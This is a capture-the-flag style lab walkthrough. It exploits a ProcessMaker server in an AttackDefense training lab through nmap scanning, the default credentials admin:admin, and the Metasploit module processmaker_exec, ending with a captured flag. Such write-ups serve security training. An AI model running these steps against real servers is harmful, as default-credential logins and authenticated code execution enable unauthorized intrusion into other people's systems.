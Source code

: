 # 🔬Win Workflow Platform - MS

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Windows: Workflow Platform](https://attackdefense.com/challengedetailsnoauth?cid=1946)
>
> * Target IP: `10.0.28.252`
> * Exploit a vulnerable ProcessMaker server with **Metasploit**

```bash
nmap -sS -sV 10.0.28.252
```

```bash
Not shown: 990 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.2.23 ((Win32) PHP/5.2.14)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql              MySQL (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

#### Enumeration <a href="#enumeration" id="enumeration"></a>

* Explore the web application hosted on the web server, before running any vuln scanners
* Search the target IP `10.0.28.252` in browser.

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* View the web page source code. In this case no **version information** can be found.
* Search online for `ProcessMaker` [default credentials](https://wiki.processmaker.com/index.php/2.0/Login\_Settings)
  * `admin`:`admin`

<figure><img src="../../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation <a href="#exploitation" id="exploitation"></a>

```bash
searchsploit ProcessMaker
# Try "ProcessMaker Open Source - (Authenticated) PHP Code Execution (Metasploit)"

cd Desktop
searchsploit -m 29325
less 29325.rb
rm 29325.rb
# In this case a Metasploit module will be used
```

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.0.28.252
workspace -a ProcessMaker
```

```bash
search ProcessMaker
use exploit/multi/http/processmaker_exec
options
set USERNAME admin
set PASSWORD admin
exploit
```

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
pwd
cd /
dir
cat flag.txt
```

{% hint style="success" %}
**Flag:** `a3dcb4d229de6fde0db5686dee47145d`
{% endhint %}
